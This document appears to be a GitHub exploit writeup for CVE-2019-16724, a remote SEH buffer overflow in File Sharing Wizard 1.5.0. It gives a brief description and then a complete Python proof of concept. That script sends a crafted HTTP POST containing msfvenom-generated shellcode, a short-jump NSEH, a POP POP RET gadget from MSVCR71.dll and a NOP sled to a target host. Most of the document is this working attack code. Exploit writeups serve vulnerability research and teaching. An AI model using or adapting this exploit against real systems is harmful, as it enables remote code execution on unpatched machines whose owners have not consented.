 ## File sharing wizard SEH overflow writeup

```
# Exploit Title: File sharing wizard remote SEH overflow
# Date: 9/23/2019
# Exploit Author: x00pwn
# Vendor Homepage: http://www.sharing-file.com
# Software Link: https://file-sharing-wizard.soft112.com/
# Version: 1.5.0	
# Tested on: Windows 7
# CVE : CVE-2019-16724
```


When sending a remote HTTP POST request to the web-servers application, an attacker can obtain arbitrary code execution by
sending to much data and exploiting a SEH based buffer overflow.

Exploit-db page: 

Assigned CVE ID : **CVE-2019-16724**


### Popping calculator:

![proof](https://raw.githubusercontent.com/nu11pwned/Windows-Exploit-Development-practice/master/CVE-writeups/CVE-2019-16724/proof-calc.png?token=ANBXOJYWDV3252FSZYUNWWK5RFUSQ)

----
### Proof of concept exploit: 
```python

import socket
from struct import *

# File-sharing-wizard-seh

#----------------------------------------------#
#	Bad characters: \x00		       #
#	SEH value:  0x909032EB  (JMP short)    #
#	NSEH value: 0x7c38a67f	(POP POP RET)  #
#----------------------------------------------#

#  Assigned CVE ID : CVE-2019-16724


victim_host = "10.0.0.17"
victim_port = 80

# msfvenom -p windows/exec CMD=calc.exe -b "\x00" -f python -v shellcode EXITFUNC=seh
shellcode =  ""
shellcode += "\xd9\xc7\xd9\x74\x24\xf4\xba\x65\x1d\x84\xe1\x5f"
shellcode += "\x29\xc9\xb1\x31\x31\x57\x18\x03\x57\x18\x83\xef"
shellcode += "\x99\xff\x71\x1d\x89\x82\x7a\xde\x49\xe3\xf3\x3b"
shellcode += "\x78\x23\x67\x4f\x2a\x93\xe3\x1d\xc6\x58\xa1\xb5"
shellcode += "\x5d\x2c\x6e\xb9\xd6\x9b\x48\xf4\xe7\xb0\xa9\x97"
shellcode += "\x6b\xcb\xfd\x77\x52\x04\xf0\x76\x93\x79\xf9\x2b"
shellcode += "\x4c\xf5\xac\xdb\xf9\x43\x6d\x57\xb1\x42\xf5\x84"
shellcode += "\x01\x64\xd4\x1a\x1a\x3f\xf6\x9d\xcf\x4b\xbf\x85"
shellcode += "\x0c\x71\x09\x3d\xe6\x0d\x88\x97\x37\xed\x27\xd6"
shellcode += "\xf8\x1c\x39\x1e\x3e\xff\x4c\x56\x3d\x82\x56\xad"
shellcode += "\x3c\x58\xd2\x36\xe6\x2b\x44\x93\x17\xff\x13\x50"
shellcode += "\x1b\xb4\x50\x3e\x3f\x4b\xb4\x34\x3b\xc0\x3b\x9b"
shellcode += "\xca\x92\x1f\x3f\x97\x41\x01\x66\x7d\x27\x3e\x78"
shellcode += "\xde\x98\x9a\xf2\xf2\xcd\x96\x58\x98\x10\x24\xe7"
shellcode += "\xee\x13\x36\xe8\x5e\x7c\x07\x63\x31\xfb\x98\xa6"
shellcode += "\x76\xfd\x69\x7b\x62\x6a\xd0\xee\xcf\xf6\xe3\xc4"
shellcode += "\x13\x0f\x60\xed\xeb\xf4\x78\x84\xee\xb1\x3e\x74"
shellcode += "\x82\xaa\xaa\x7a\x31\xca\xfe\x18\xd4\x58\x62\xf1"
shellcode += "\x73\xd9\x01\x0d"

nseh = pack ('<I',0x909032EB) # Short jump forward 32 places into NOP sled
seh = pack('I',0x7c38a67f)	# POP POP RET 

# 0x7c38a67f : pop ecx # pop ecx # ret  |  {PAGE_EXECUTE_READ} [MSVCR71.dll] 
# ASLR: False, Rebase: False, SafeSEH: False, OS: False, v7.10.6030.0 (C:\Program Files (x86)\File Sharing Wizard\bin\MSVCR71.dll)

exploit_payload  = "A" * 1040
exploit_payload += nseh # JMP short
exploit_payload += seh # POPPOPRET 
exploit_payload += "\x90" * 100 # NOPSLED
exploit_payload += shellcode # popping calc.exe
exploit_payload += "D" *(5000 - len(exploit_payload))

payload_header  = "POST " + exploit_payload
payload_header +=" HTTP/1.0\r\n\r\n"

# overflowed SEH handler - 42386942 : [*] Exact match at offset 1044

try:
	print("""
	--------------------------------
	CVE-2019-16724 proof of concept
	File sharing wizard SEH overflow
	--------------------------------
	""")
	expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	print("[x] Setting up a socket connection")
	expl.connect((victim_host, victim_port))
	print("[x] Establishing a connection to the victim")
	expl.send(payload_header)
	print("[x] Sending ")
except:
	print("[!] Error establishing a connection")
	print("[!] Error sending exploit")

  ```
